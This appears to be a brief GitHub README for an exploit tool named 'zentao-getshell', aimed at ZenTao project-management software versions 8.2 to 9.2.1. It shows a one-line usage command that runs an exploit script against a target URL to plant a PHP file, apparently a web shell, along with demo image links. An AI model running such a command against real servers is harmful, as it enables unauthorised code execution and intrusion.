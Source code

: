 # zentao-getshell 禅道8.2 - 9.2.1前台Getshell
## Python Usage

`python exp.py http://127.0.0.1:81/ jas502n.php`

![](./zentao.jpg)


![](./zentao.gif)
